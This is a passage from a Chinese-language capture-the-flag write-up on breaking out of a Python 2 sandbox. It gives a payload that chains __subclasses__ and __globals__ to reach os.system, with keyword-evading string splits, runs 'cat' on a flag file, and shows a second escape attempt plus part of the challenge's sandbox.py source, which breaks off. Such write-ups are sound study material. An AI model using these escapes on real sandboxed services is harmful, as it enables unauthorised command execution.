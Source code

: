 最终的payload为:

```
print [].__class__.__mro__[-1].__subclasses__()[71].__init__.__getattribute__('__global'+'s__')['o'+'s'].__dict__['sy'+'stem']('ca'+'t /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb')
```

有点不明白的就是下面这条命令执行不了,不知道为什么,本机上是可以执行的,不然也是完全可以绕过所有关键字的.

```
[].__class__.__base__.__subclasses__()[59]()._module.linecache.__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s')
```

> 还有两个描述器方法和这个方法类似,但还是有区别的

`__getattr__`: 只有**getattribute**找不到的时候,才会调用**getattr**.

`__get__`: 当函数被当作属性访问时，它就会把函数变成一个实例方法。

run这题的源码如下,有兴趣的可以研究一下

sandbox.py

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Date    : 2018-04-09 23:30:58
# @Author  : Xu (you@example.org)
# @Link    : https://xuccc.github.io/
# @Version : $Id$

from sys import modules
from cpython import get_dict
from types import FunctionType

main  = modules['__main__'].__dict__
origin_builtins = main['__builtins__'].__dict__

def delete_type():
    type_dict = get_dict(type)
    del type_dict['__bases__']
    del type_dict['__subclasses__']

def delete_func_code():
    func_dict = get_dict(FunctionType)
    del func_dict['func_code']

def safe_import(__import__,whiteList):
    def importer(name,globals=`{``}`,locals=`{``}`,fromlist=[],level=-1):
        if name in whiteList:
            return __import__(name,globals,locals,fromlist,level)
        else:
            print "HAHA,[%s]  has been banned~" % name
    return importer

class ReadOnly(dict):
    """docstring for ReadOnlu"""
    def __delitem__(self,keys):
        raise ValueError(":(")        
    def pop(self,key,default=None):
        raise ValueError(":(")        
    def popitem(self):
        raise ValueError(":(")        
    def setdefault(self,key,value):
        raise ValueError(":(")        
    def __setitem__(self,key,value):
        raise ValueError(":(")        
    def __setattr__(self, name, value):
```